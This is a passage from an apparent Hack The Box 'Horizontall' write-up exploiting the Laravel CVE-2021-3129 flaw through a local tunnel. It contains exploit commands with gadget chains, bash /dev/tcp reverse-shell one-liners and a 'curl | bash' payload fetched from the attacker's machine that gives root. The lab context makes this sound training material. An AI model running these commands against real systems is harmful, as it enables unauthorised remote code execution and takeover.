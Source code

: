 I try to get an **RCE** with the expolit, but for some reason I get no results, I change the port of my machine that I am using for the tunnel (**9000**), but nothing. I try with other exploits: **[joshuavanderpoll/CVE-2021-3129](https://github.com/joshuavanderpoll/CVE-2021-3129){:target="_blank"}**, **[zhzyker/CVE-2021-3129](https://github.com/zhzyker/CVE-2021-3129){:target="_blank"}**, all work correctly but I don't get the **RCE**. I access the website from the browser and I can see the service working.

```bash
python3 exploit.py http://127.0.0.1:9000 Monolog/RCE1 whoami        # :(

git clone https://github.com/joshuavanderpoll/CVE-2021-3129.git
python3 CVE-2021-3129.py --host http://127.0.0.1:9000 --chain Laravel/RCE2 --force

git clone https://github.com/zhzyker/CVE-2021-3129.git
python3 exp.py http://127.0.0.1:9000
```

<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_40.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_41.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_42.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Finally I find the problem, because I don't have **PHP** installed on my machine, that's why the exploits don't work. Once installed I see that the exploits work and perform an **RCE**.

```bash
apt install php
```

<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_43.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/horizontall_writeup/Horizontall_44.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

Now that I can execute commands on the victim machine, I see if I can send myself an **Reverse Shell**, and also verify that I will be the `root` user of the victim machine. I try several **one line** but they do not work, better I create a malicious **index.html** file with `bash` code, I create a local server with `python`, and from the attacking victim machine I download the malicious file with `curl`, at the same time I execute its code with `bash`, so I get a shell, and as the **root** user.

```bash
nc -nlvp 443

python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'
# :(

python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 "bash -c 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1'"
# :(

nvim index.html
python3 -m http.server 80
nc -nlvp 443

python3 exploit.py http://127.0.0.1:8000 Monolog/RCE1 'curl 10.10.14.6 | bash'
```